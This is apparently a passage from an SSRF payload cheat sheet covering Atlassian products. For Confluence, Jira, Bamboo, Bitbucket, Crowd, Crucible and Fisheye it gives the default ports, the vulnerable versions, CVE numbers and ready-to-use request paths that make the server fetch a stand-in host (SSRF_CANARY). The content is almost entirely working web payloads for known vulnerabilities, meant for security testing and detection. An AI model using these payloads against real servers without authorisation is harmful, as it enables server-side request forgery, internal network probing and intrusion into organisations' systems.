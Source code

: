 ## Confluence

**Commonly bound ports: 80,443 (SSL),8080,8443 (SSL)**

**SSRF Canary: Sharelinks  (Confluence versions released from 2016 November and older)**

```bash
/rest/sharelinks/1.0/link?url=https://SSRF_CANARY/
```

**SSRF Canary: iconUriServlet - Confluence < 6.1.3 (CVE-2017-9506)**

[Atlassian Security Ticket OAUTH-344](https://ecosystem.atlassian.net/browse/OAUTH-344)

```bash
/plugins/servlet/oauth/users/icon-uri?consumerUri=http://SSRF_CANARY
```


<div id="jira"></div>

## Jira

**Commonly bound ports: 80,443 (SSL),8080,8443 (SSL)**

**SSRF Canary: iconUriServlet - Jira < 7.3.5 (CVE-2017-9506)**

[Atlassian Security Ticket OAUTH-344](https://ecosystem.atlassian.net/browse/OAUTH-344)

```bash
/plugins/servlet/oauth/users/icon-uri?consumerUri=http://SSRF_CANARY
```

**SSRF Canary: makeRequest - Jira < 8.4.0 (CVE-2019-8451)**

[Atlassian Security Ticket JRASERVER-69793](https://jira.atlassian.com/browse/JRASERVER-69793)

```bash
/plugins/servlet/gadgets/makeRequest?url=https://SSRF_CANARY:443@example.com
```

<div id="atlassian-products"></div>

## Other Atlassian Products

**Commonly bound ports: 80,443 (SSL),8080,8443 (SSL)**

**SSRF Canary: iconUriServlet (CVE-2017-9506)**:
- Bamboo < 6.0.0
- Bitbucket < 4.14.4
- Crowd < 2.11.2
- Crucible < 4.3.2
- Fisheye < 4.3.2

[Atlassian Security Ticket OAUTH-344](https://ecosystem.atlassian.net/browse/OAUTH-344)

```bash
/plugins/servlet/oauth/users/icon-uri?consumerUri=http://SSRF_CANARY
```

